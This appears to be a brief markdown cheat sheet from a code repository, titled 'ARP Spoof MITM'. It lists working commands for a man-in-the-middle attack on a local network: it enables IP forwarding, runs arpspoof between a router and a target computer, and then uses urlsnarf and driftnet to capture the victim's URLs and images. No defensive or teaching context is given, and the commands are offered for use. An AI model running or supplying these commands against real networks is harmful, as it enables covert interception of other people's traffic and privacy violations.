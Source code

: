 # ARP Spoof MITM 
echo 1 > /proc/sys/net/ipv4/ip_forward
arpspoof -i wlan0 -t <router> <computer>

## capture urls 
urlsnarf -i wlan0
## capture images
driftnet -i wlan0
